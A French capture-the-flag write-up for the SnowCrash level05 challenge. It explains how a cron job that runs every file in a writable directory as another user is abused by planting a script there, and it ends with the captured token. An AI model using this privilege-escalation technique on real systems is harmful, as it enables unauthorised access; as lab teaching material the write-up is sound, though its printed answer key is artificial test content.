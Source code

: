 # Explication

En arrivant sur la session du level05 on reçoit une alert comme quoi on a recu un email, on va donc lire les fichiers dans `/var/mail/`:

```
level05@SnowCrash:~$ ls /var/mail/
level05
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

en cherchant `*/2 * * * *` on tombe sur [ce site](https://crontab.guru/#*/2_*_*_*_*) qui nous informe que c'est une **cron** et que toute les 2 minutes la commande qui la suit va s'executer  
On va donc regarder ce que va faire ce programme
```sh
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

On peu voir que avec un interval de 5s le programme va executer tout les fichier du dossier `/opt/openarenaserver/`  
On va donc créer un fichier qui va écrire le token dans `/tmp/level05`

```
echo "getflag > /tmp/level05" > /opt/openarenaserver/level05
```

Au bout de quelque instant le fichier `/tmp/level05` est crée
```
cat /tmp/level05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```